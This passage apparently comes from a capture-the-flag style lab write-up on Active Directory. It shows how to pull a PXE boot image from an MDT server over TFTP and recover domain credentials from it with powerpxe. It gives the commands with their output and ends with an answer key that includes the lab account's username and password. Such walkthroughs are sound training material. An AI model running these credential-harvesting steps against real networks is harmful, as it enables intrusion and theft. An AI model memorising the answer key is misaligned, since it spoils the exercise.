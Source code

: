 ```php
tftp -i 10.200.25.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim 
```


![[img/Pasted image 20241011102507.png]]

This download will take a while since you are downloading a fully bootable and configured Windows image. Maybe stretch your legs and grab a glass of water while you wait.

Recovering Credentials from a PXE Boot Image

Now that we have recovered the PXE Boot image, we can exfiltrate stored credentials. It should be noted that there are various attacks that we could stage. We could inject a local administrator user, so we have admin access as soon as the image boots, we could install the image to have a domain-joined machine. If you are interested in learning more about these attacks, you can read this [article](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/). This exercise will focus on a simple attack of just attempting to exfiltrate credentials.

Again we will use powerpxe to recover the credentials, but you could also do this step manually by extracting the image and looking for the bootstrap.ini file, where these types of credentials are often stored. To use powerpxe to recover the credentials from the bootstrap file, run the following command:

```php
PS C:\Users\THM\Documents\am0> Get-FindCredentials -WimFile pxeboot.wim
>> Open pxeboot.wim
>>>> Finding Bootstrap.ini
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$
>>>> >>>> UserID = <account>
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = <password>
```

```php
Get-FindCredentials -WimFile pxeboot.wim
```

![[img/Pasted image 20241011103051.png]]

As you can see, powerpxe was able to recover the AD credentials. We now have another set of AD credentials that we can use!

Answer the questions below

1. What Microsoft tool is used to create and host PXE Boot images in organisations?  

`Microsoft Deployment Toolkit`

2. What network protocol is used for recovery of files from the MDT server?  

`TFTP`

3. What is the username associated with the account that was stored in the PXE Boot image?  

`svcMDT`

4. What is the password associated with the account that was stored in the PXE Boot image?  

`PXEBootSecure1@`
